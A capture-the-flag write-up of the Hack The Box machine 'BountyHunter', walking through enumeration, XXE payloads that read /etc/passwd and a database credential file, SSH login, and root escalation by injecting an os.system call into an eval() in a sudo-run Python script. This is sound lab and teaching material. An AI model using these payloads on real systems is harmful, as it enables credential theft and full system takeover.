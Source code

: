 # HTB - BountyHunter
Dominik Zarsky, 2021-11-09

# Enumeration

## Nmap
Open ports 80, 22

## GObuster
Enumerated PHP, JS and SQL files

Found
- db.php

# Website
- Found form at http://10.10.11.100/log_submit.php, determined it sends base64 encoded XML to http://10.10.11.100/tracker_diRbPr00f314.php through POST request
- Decoded XML and attempted XXE
- Captured request with Burp, altered its contents with base64 encoded and then urlencoded payloads listed below

## Payload

### Enumerating users

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE title [
    <!ELEMENT title ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>asdsad</cwe>
		<cvss>asdasd</cvss>
		<reward>asd</reward>
		</bugreport>
```

### Getting credentials

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE title [
    <!ELEMENT title ANY >
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>asdsad</cwe>
		<cvss>asdasd</cvss>
		<reward>asd</reward>
		</bugreport>
```

- Yielded base64 encoded contants of *db.php*

# System

## User
- Connected with SSH with username from `/etc/passwd` and password from `db.php` and got the flag

```bash
ssh development@10.10.11.100
cat user.txt
```

## Enumeration
- Ran `sudo -l`, found the user to have permissions to run `/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` as sudo without password

### Python script
Found the following portion of the script interesting:

```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```

- The eval statement caught my eye as I thought it could be used to run a command
- That was indeed the case as something like `eval("**32+22 and print('hello')**".replace("**", ""))` can be done, the main thing was to change the leading number in such a way it would satisfy the modulo condition

## Root
- There were several pre-formatted *tickets* in `/opt/skytrain_inc/invalid_tickets`, which were used as a blueprint

```bash
cat /opt/skytrain_inc/invalid_tickets/734485704.md > /home/development/xxx.md
```

- In `xxx.md`

```md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+100 and __import__('os').system('cat /root/root.txt')**
##Issued: 2021/04/06
#End Ticket
```

- Root flag was diplayed in the terminal
- I also tried to spawn a reverse shell with netcat and bash (TCP) but to no avail, so I catted the root flag directly
